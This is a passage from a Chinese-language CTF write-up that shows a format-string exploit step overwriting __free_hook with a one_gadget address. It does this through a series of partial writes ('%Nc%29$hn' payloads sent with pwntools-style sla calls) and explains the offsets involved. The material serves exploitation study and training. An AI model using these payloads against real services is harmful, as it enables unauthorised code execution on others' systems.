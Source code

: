 [![](assets/1701612457-954316e7f204aff7ecd149118e891da8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230623215005-dc196234-11cc-1.png)  
2.然后再用跳板把free\_hook改为one\_gadget  
free\_hook (0x7fde287987a8) 与 one\_gadget (0x7fde2841727a) 也是后6位有区别，所以需要多步

```plain
sla('What do you want to say?\n','%'+str(og&0xffff)+'c%29$hn')
sla('What do you want to say?\n','%'+str(num)+'c%8$hhn')
sla('What do you want to say?\n','%'+str(0xaa)+'c%10$hhn')
sla('What do you want to say?\n','%'+str((og//0x10000)&0xffff)+'c%29$hn')
sla('What do you want to say?\n','%'+str(0xac)+'c%10$hhn')
sla('What do you want to say?\n','%'+str(free&0xff)+'c%29$hhn')
sla('What do you want to say?\n','%'+str(0xad)+'c%10$hhn')
sla('What do you want to say?\n','%'+str(free1)+'c%29$hhn')
```

第一步是先直接修改free\_hook的后四位，第二三步是把 \_libc\_start\_main+240 修改成了 free\_hook+2 (free\_hook最后两位是0xa8 , 0xa8+0x2=0xaa , 这个地址是用libc查找的，所以本地和远程后三位是一致的)，然后再用这种方法修改。

[![](assets/1701612457-4f2278ecf1e941ba9cb389299c25f141.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230623215645-ca52d746-11cd-1.png)
